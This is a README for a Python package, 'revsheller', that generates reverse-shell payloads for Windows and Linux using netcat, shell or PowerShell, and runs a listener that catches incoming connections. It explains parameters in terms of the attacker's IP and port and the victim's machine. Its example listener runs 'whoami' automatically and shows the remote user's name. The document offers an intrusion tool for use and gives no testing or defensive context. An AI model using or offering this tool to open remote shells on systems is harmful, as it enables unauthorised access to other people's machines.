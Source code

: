 # revsheller - pip revsheller package

Easy to generate reverse shells and build a server.

Note: This package is only for Linux or unix like system.

# How to install

Take it easy, just a pip.

https://pypi.org/project/revsheller/

```
pip install revsheller
```

# How to use

## To create reverse shells

```
>>> import revsheller as rev
>>> rev.generate(os, mode, ip, port=4444, sh=None, nc_path=None)
```

os - windows / linux

mode - nc:netcat / sh:shell / powershell

ip - attacker's ip address

port - attacker's port

sh - shell of victim's machine, not required

nc_path - netcat path on victim's machine, not required

### Example for windows

```
>>> rev.generate('windows', 'powershell', '127.0.0.1', 4444)
```

### Example for linux / unix

```
>>> rev.generate('linux', 'sh', '127.0.0.1', 4444, sh='/bin/bash')
```

## To wait a connection

```
>>> revsheller.wait_for_connection(4444)
listening on [any] 4444 ...
```

To run a command automaticaly when get response

```
>>> revsheller.wait_for_connection(4444, 'whoami')
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54364
ayato
```

